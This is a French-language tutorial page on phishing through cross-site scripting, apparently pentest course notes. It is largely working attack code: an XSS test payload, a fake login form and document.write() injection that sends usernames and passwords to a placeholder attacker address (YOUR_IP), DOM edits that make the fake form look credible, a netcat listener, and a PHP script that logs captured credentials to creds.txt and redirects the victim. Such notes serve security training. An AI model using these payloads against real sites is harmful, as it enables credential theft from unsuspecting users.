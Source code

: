 # Phishing

### <mark style="color:blue;">**1. Introduction à l'attaque XSS et Phishing**</mark>

* **XSS (Cross-Site Scripting)** est une vulnérabilité permettant d'exécuter du JavaScript malveillant sur un site Web.
* **Phishing** via XSS implique l'injection de faux formulaires de connexion pour voler les identifiants des victimes.

***

### <mark style="color:blue;">**2. Découverte de la vulnérabilité XSS**</mark>

* Lors de l'examen d'une application web vulnérable à XSS, l'attaque commence par tester des **payloads XSS** pour voir si le JavaScript s'exécute.

```html
<img src="" onerror=alert(window.origin)>
```

* Si le **payload XSS** n'exécute rien, il faut ajuster les tests pour identifier un code malveillant qui fonctionne sur la page.

***

### <mark style="color:blue;">**3. Injection de formulaire de connexion (Phishing)**</mark>

* Une fois que l'on trouve un **payload XSS fonctionnel**, on peut injecter un **formulaire de connexion** qui enverra les identifiants de la victime à un serveur malveillant.
* Exemple de code HTML pour un formulaire de connexion :

```html
<h3>Please login to continue</h3>
<form action="http://YOUR_IP">
    <input type="text" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

***

### <mark style="color:blue;">**4. Injection JavaScript via XSS**</mark>

* Utilisation de la fonction `document.write()` pour injecter le code HTML du formulaire dans la page vulnérable.
* Exemple de code JavaScript :

{% code overflow="wrap" fullWidth="true" %}
```javascript
document.write('<h3>Please login to continue</h3><form action=http://YOUR_IP><input type="text" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```
{% endcode %}

***

### <mark style="color:blue;">**5. Suppression de champs inutiles**</mark>

* Pour augmenter la crédibilité, on peut **supprimer** les champs inutiles comme le champ URL de la page pour ne laisser que le formulaire de connexion visible :

```javascript
document.getElementById('urlform').remove();
```

***

### <mark style="color:blue;">**6. Nettoyage du code HTML**</mark>

* Pour s'assurer que le formulaire est bien le seul élément visible, le reste du HTML peut être commenté.

```html
<!-- ...payload... -->
```

***

### <mark style="color:blue;">**7. Collecte des identifiants**</mark>

* Lorsqu'une victime soumet ses identifiants, le **formulaire XSS** envoie ces données à un serveur malveillant.
* Pour récupérer ces informations, on peut utiliser un serveur **Netcat** ou **PHP**.

**Netcat Listener :**

```bash
sudo nc -lvnp 80
```

* Ou utiliser un script PHP pour enregistrer les identifiants dans un fichier texte (`creds.txt`).

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

**Démarrer le serveur PHP**

* Pour capturer les informations et rediriger la victime vers la page d'origine :

```bash
sudo php -S 0.0.0.0:80
```

* Une fois que la victime se connecte, ses identifiants sont enregistrés dans `creds.txt`.
